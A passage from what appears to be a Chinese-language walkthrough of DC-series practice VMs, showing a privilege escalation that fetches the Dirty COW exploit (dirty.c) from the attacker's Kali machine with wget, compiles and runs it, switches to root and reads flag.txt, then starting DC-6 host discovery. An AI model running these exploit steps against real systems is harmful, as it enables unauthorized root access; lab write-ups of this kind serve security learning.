 
在刚才ssh登录的tiago用户的/tmp目录下下载40847.cpp文件：

```
wget http://192.168.81.131:1234/dirty.c
#ip地址改为自己的kali的IP
```

![image-20220316103005510](https://gitee.com/xxb667/img/raw/master/img/image-20220316103005510.png)

编译

```
gcc -pthread dirty.c -o dcow -lcrypt
```

- 而gcc手册里则指出应该在编译和链接时都增加 -pthread 选项
- -lcrypt返回一个指向以NULL结尾的密码字符串

```
./dcow     #运行木马
1234567  #输入新密码
su -     #切换root用户
cd /root
cat flag.txt
```

![image-20220316103203844](https://gitee.com/xxb667/img/raw/master/img/image-20220316103203844.png)

![image-20220316103329449](https://gitee.com/xxb667/img/raw/master/img/image-20220316103329449.png)

![image-20220316103432693](https://gitee.com/xxb667/img/raw/master/img/image-20220316103432693.png)

# 第6次 DC-6

# 1.信息收集

## 1.1 主机发现

```
netdiscover
```

目标IP地址为：

```
192.168.81.143
```

![image-20220317105440134](https://gitee.com/xxb667/img/raw/master/img/image-20220317105440134.png)

## 1.2 端口扫描
